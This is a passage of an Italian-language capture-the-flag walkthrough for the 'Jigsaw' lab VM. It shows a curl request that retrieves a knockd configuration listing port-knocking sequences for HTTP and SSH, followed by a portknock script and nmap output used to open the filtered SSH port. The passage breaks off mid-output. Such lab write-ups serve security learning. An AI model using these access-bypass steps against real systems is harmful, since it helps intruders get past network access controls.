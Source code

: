
```
root@kali:~/Jigsaw# curl -d @cookies.txt -X POST http://192.168.1.140/w4n770p14y494m3/game2.php
[options]
	UseSyslog


[openHTTP]
        sequence    = 5500,6600,7700
        seq_timeout = 100
        command     = /sbin/iptables -I INPUT 1 -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn

[closeHTTP]
        sequence    = 7700,6600,5500
        seq_timeout = 100
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn

[openSSH]
        sequence    = 7011,8011,9011
        seq_timeout = 5
        command     = /sbin/iptables -I INPUT 1 -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9011,8011,7011
        seq_timeout = 5
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn
```


Perfetto!
Abbiamo trovato i trigger per il port knocking anche per il servizio sshd!
Verifichiamo adesso lo sbloccco.


```
/root/Jigsaw/portknock.sh 192.168.1.140 7011 8011 9011

root@kali:~/Jigsaw# /root/Jigsaw/portknock.sh 192.168.1.140 7011 8011 9011
Starting Nmap 7.70 ( https://nmap.org ) at 2019-08-11 15:47 EDT
Warning: 192.168.1.140 giving up on port because retransmission cap hit (0).
Nmap scan report for jigsaw (192.168.1.140)
Host is up (0.0038s latency).

PORT     STATE    SERVICE
7011/tcp filtered talon-disc
MAC Address: 08:00:27:88:7A:84 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-08-11 15:47 EDT
Warning: 192.168.1.140 giving up on port because retransmission cap hit (0).
Nmap scan report for jigsaw (192.168.1.140)
Host is up (0.0027s latency).

PORT     STATE    SERVICE
8011/tcp filtered unknown
MAC Address: 08:00:27:88:7A:84 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-08-11 15:47 EDT
Warning: 192.168.1.140 giving up on port because retransmission cap hit (0).
Nmap scan report for jigsaw (192.168.1.140)
Host is up (0.0033s latency).
```